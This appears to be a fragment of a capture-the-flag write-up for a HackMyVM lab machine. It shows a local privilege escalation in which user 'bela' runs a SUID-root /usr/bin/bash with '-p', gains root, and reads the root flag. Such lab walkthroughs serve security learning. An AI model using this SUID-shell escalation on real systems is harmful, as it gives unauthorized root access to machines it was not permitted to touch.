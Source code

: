 ![Victim: bela](https://img.shields.io/badge/Victim-bela-64b5f6?logo=linux&logoColor=white)

`ls -l /usr/bin/bash`:
```
-rwsr-sr-x 1 root root 1234376 mar 27  2022 /usr/bin/bash ←
```

`/usr/bin/bash -p`

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`id`:
```
uid=1000(bela) gid=1000(bela) euid=0(root) egid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),1000(bela)
```

`cd /root`

`ls -alps`:
```
total 32
4 drwx------  4 root root 4096 abr 25  2023 ./
4 drwxr-xr-x 18 root root 4096 abr 25  2023 ../
0 lrwxrwxrwx  1 root root    9 abr 25  2023 .bash_history -> /dev/null
4 -rw-r--r--  1 root root  613 abr 25  2023 .bashrc
4 drwx------  3 root root 4096 abr 25  2023 .docker/
4 -rw-r--r--  1 root root  299 abr 25  2023 .fzf.bash
4 drwxr-xr-x  3 root root 4096 abr 25  2023 .local/
4 -rw-r--r--  1 root root  161 jul  9  2019 .profile
4 -rw-------  1 root root   19 abr 25  2023 root.txt ←
```

`cat ./root.txt`:
```
xwHTSMZljFuJERHmMV ←
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---

